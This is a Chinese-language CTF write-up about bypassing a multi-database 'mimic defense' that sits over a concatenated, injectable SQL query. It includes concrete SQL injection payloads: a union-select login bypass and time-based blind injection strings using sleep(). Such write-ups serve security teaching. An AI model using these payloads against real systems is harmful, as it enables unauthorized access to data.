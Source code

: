 
我们很容易看到，在user类中，对查询语句直接做了拼接
```
query = '''select * from users where username=%s%s%s;''' % (quote, username, quote)
```
很明显的注入，但问题在于，这里LCBC加入了所谓的拟态防御，代码如下：

```

def find_user(self, username, driver):

        TERMINAL_TOKENS = {
            'psql': ["'", '$$'],
            'mssql': ["'"],
            'mysql': ["'", '"'],
            'sqlite': ["'", '"']
        }

        quote = choice(TERMINAL_TOKENS.get(driver, ["'", '"']))
        query = '''select * from users where username=%s%s%s;''' % (quote, username, quote)
```
后端使用了4种数据库，然后不同的数据库会对应不同的闭合符号，在每次查询时都会向4个数据库同时查询，然后对比返回结果，只有3种以上相同的结果才会被返回。

```
result = [self.find_user(username, driver) for driver in self.DB_CONNECTIONS]
common = Counter(result).most_common()[0]
user = () if common[1] < len(result) - 1 else common[0]
if not user:
    raise UserNotFoundError()
self._id = user[0][0]
self.username = user[0][3]
self.id = self.username 
self.password = user[0][4]
```

或许我们很难找到这种防御方式的弱点，但是我们或许需要换个思路来思考这个问题。

我们有两个办法解决这个问题
1、找到至少3种数据库都支持的查询方式
2、只攻击其中1种数据库

这里我们很难找到支持第一种办法的注入方式，因为在不同的数据库中，储存表名列名字段的都是不同位置，我们最多只能使用最普通的`union select`语法来登陆。

```
username=root' union select 0,'root','e10adc3949ba59abbe56e057f20f883e'--&password=123456
```

用这个语句可以直接登陆，很显然，后台什么都没有。

那么我们果断是由第二种方式，既然我们的每次查询都会进数据库，那么我们直接时间盲注就好了，有个问题在于，比如mysql，我们需要处理单双引号闭合方式不同的问题，当闭合方式不同时，我们就没办法获得数据了。

有两个办法，1是通过精妙的构造来闭合两种引号，也不是很难，就是看着挺难受的，例如
```
username=1' or '"!="'!='' and sleep(2) and ''!='" or sleep(2)!="&password=123456
```

2就是通过if的正确和错误生成不同的延时来判断
```
1' or if(({}), sleep(3), sleep(1))#
```
通过只有有效语句才会sleep


  [5]: http://static.zybuluo.com/LoRexxar/rf98mvtfeiiyu05ltb5oxx0m/image.png
  [6]: http://static.zybuluo.com/LoRexxar/6vlfhi58vrcegnsd6ciuecje/image.png
  [7]: http://static.zybuluo.com/LoRexxar/fb0kn88pavd4ducdv5gxf9l1/image.png